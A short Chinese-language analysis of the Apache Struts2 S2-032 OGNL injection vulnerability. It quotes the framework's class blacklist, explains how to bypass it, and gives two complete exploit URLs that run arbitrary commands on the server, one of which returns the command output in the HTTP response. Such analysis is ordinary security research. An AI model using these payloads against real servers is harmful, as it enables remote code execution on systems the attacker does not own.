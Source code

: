 # S2-032分析

需要手动开启DMI

```xml
<constant name="struts.enable.DynamicMethodInvocation" value="true" />
```

可以看见这里的过滤规则

```java
 <constant name="struts.excludedClasses"
              value="
                java.lang.Object,
                java.lang.Runtime,
                java.lang.System,
                java.lang.Class,
                java.lang.ClassLoader,
                java.lang.Shutdown,
                ognl.OgnlContext,
                ognl.MemberAccess,
                ognl.ClassResolver,
                ognl.TypeConverter,
                com.opensymphony.xwork2.ActionContext" />
    <!-- this must be valid regex, each '.' in package name must be escaped! -->
    <constant name="struts.excludedPackageNamePatterns" value="^java\.lang\..*,^ognl.*,^(?!javax\.servlet\..+)(javax\..+)" />
```

其中java.lang.Class这个算比较狠，这就导致我们之后不能用反射修改，但是也不是不能绕过，allowStaticMethodAccess的值,同时对 method 的名称，会将单、双引号转义处理，因此可以换个方式传参

而绕过上面的过滤，可以将 excludedClasses 以及 excludedPackageNamePatterns 这两个 SET 设置为空

因此得到payload，注意后面会自动拼接一个()

```
http://127.0.0.1:8080/login.action?method:#_memberAccess.excludedClasses=@java.util.Collections@EMPTY_SET,#_memberAccess.excludedPackageNamePatterns=@java.util.Collections@EMPTY_SET,new java.lang.ProcessBuilder(new java.lang.String[]{#parameters.cmd[0],#parameters.cmdd[0],#parameters.cmddd[0]}).start&cmd=open&cmdd=-a&cmddd=Calculator.app
```

但是如果我们想要调用静态方法怎么办，一方面struts-default.xml里面规则我们可以改掉但是在com.opensymphony.xwork2.ognl.SecurityMemberAccess#isClassExcluded里面，代码层面也有过滤

```java
protected boolean isClassExcluded(Class<?> clazz) {
  if (clazz == Object.class) {
    return true;
  }
  for (Class<?> excludedClass : excludedClasses) {
    if (clazz.isAssignableFrom(excludedClass)) {
      return true;
    }
  }
  return false;
}
```

因此拿到了网上的通杀payload

```
http://127.0.0.1:8080/login.action?method:#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,#res=@org.apache.struts2.ServletActionContext@getResponse(),#res.setCharacterEncoding(#parameters.encoding[0]),#w=#res.getWriter(),#s=new+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()).useDelimiter(#parameters.pp[0]),#str=#s.hasNext()?#s.next():#parameters.ppp[0],#w.print(#str),#w.close(),1?#xx:#request.toString&pp=\\A&ppp= &encoding=UTF-8&cmd=id
```

可以得到在 `ognl.OgnlContext` 中，有一个 public static 的 MemberAccess 对象，实际上是 DefaultMemberAccess 对象。我们直接将 `_memberAccess` 对象引用至此对象，就不用执行原本SecurityMemberAccess当中各种各样的过滤规则，直接执行静态代码了。
